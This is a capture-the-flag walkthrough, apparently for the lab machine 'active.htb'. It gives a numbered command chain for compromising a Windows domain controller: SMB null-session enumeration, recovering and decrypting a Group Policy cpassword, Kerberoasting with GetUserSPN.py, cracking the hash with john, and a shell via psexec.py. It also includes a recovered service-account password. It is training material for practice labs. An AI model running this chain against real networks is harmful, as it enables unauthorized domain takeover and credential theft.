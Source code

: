 1 - Enumerate ports

2 - When seeing that the machine is using Windows as OS and that the SMB port is open (445 - Microsoft DS) you can try to enumerate the service using "crackmapexec". Usage: crackmapexec smb __{VICTIM's-IP}__         

3 - Add the domain paired with the machin ip to the hosts file in /etc/hosts

4 - Try to enumerate objects in the domain using a smb client and a null session because of the lack of credentials to enter the server. Usage: smbclient -L __{VICTIM's-IP}__ -N 
- -L : Allows you to look at what services are available on the server 
- -N : Suppresses the normal password prompt from the client to the user. Used in a null session<br><br>
	4.1 - Because the port 88 is open and kerberos is running you can try to enumerate all the users of the server with the usage of kerbrute. Usage: kerbrute userenum --dc __{VICTIM's-IP}__ -d __{DOMAIN ex. active.htb}__ __{WORDLIST}__<br>
	4.2 - For kerberosting and ASREPRoast attack you've to be with the hour in the system equal to the server's one. Tool: ntpdate __{VICTIM's-IP}__

5 - After listing all the sharenames you can also list the privileges for each one of those shares. Usage: smbmap -H __{VICTIM's-IP}__
- -H : Stands for Host

6 - Right after that step, if a share is public, you can use the -r flag to extract all the information from that share. Usage: smbmap -H __{VICTIM's-IP}__ -r __{SHARE-NAME}__
- -r : List contents of a directory

7 - Because of the recognizable structure of the server we can tell this is a sysvol: 
- DfsrPrivate 
- Policies
- scripts

8 - While enumerating the service we've to look for Groups.xml because that file sometimes has the password hash to the service so that enables you to enter the system. In this machine particularly Gropus.xml is in the directory:
		Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences

9 - In order to download the file you can use smbmap like this: smbmap -H __{VICTIM's-IP}__ --download __{PATH}__/Groups.xml

10 - Once having the Groups.xml in our hands we can enter cat out the file and get the hash in the cpassword field. The hash will be like: edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ. Besides that, you also have to pay attention to the userName field in order to known which user that password stands for

11 - After getting the hash you can get the password by decrypting it with gpp-decrypt. Usage: gpp-decrypt __{HASH}__

12 - Once you've get the username and the password you can verify if they're correct with the usage of crackmapexec. Command: crackmapexec smb __{VICTIM's-IP}__ -u __{USER}__ -p __{PASS}__

13 - Now that you have an user you can list all the server shares again to see if you've access to a new-one. Usage: crackmapexec smb __{VICTIM's-IP}__ -u __{USER}__ -p __{PASS}__ --shares

14 - Now, because we've Read access to the users share we can enumerate it with smbmap with the following command: smbmap -H __{VICTIM's-IP}__ -u SVC_TGS -p GPPstillStandingStrong2k18 -r Users 
- -u and -p : Stands for Username and Password

15 - Enumerate till you get the user flag located in the desktop of the user SVC_TGS and download it with the previously named user with the flag --download

16 - Log into the service with rpcclient. Usage: rpcclient -U "__{USER}__%__{PASSWORD}__" __{VICTIM's-IP}__<br><br>
	&emsp;16.1 - Sometimes you can skip all the previous steps and try to connect with rpcclient with a null session. Way to do it: rpcclient -U "" __{VICTIM's-IP}__ -N<br>
	16.2 - If with the null session attack previously named you get a list of all the users in the server you can try to do an ASREPRoast

17 - Useful rpcclient commands: 
- _enumdomusers_ - Enumerate domain users of the domain controller
- _enumdomgropus_ - Enumerate domain groups of the domain controller
- _querygroupmem_ __{RID-OF-GROUP}__ - Enumerates the users that belong to the group with that RID
- _queryuser_ __{RID-OF-A-USER}__ - Gives you all the information on the server about a certain user
- _querydispinfo_ - Enumerates all the descriptions of the users in the domain controller

18 - After trying to do an ASREPRoast attack, as we can't seem to get any creedentials we can try using GetUserSPN.py instead of GETNpusers.py. Usage: GetUserSPN.py __{DOMAIN ex. active.htb}__/__{USER}__:__{PASSWORD}__
	18.1 - This attack will give us a TGS (Ticket Granting Service) of the admin through the usage of credentials previously retrieved from other attacks
	18.2 - After seeing that the tools gives us a response with a TGS of the admin we can add the flag -request to get the credentials for the admin account. Usage: GetUserSPN.py __{DOMAIN ex. active.htb}__/__{USER}__:__{PASSWORD}__ -request

19 - When you finally have the hash of the admin's password you can dump it into a file called hash and try to crack it. Way: john -w:{Wordlist} {Hash} 

20 - Download the root flag with the usage of smbmap and the parameter --download. Way: smbmap -H __{VICTIM's-IP}__ -u __{USER}__ -p __{PASS}__ --download Users/Administrator/Desktop/root.txt
	20.1 - Another way to get the flag could be gain system access with the use of psexec.py. Usage: psexec.py __{DOMAIN ex. active.htb}__/__{USER}__:__{PASS}__@__{VICTIM's-IP}__ cmd.exe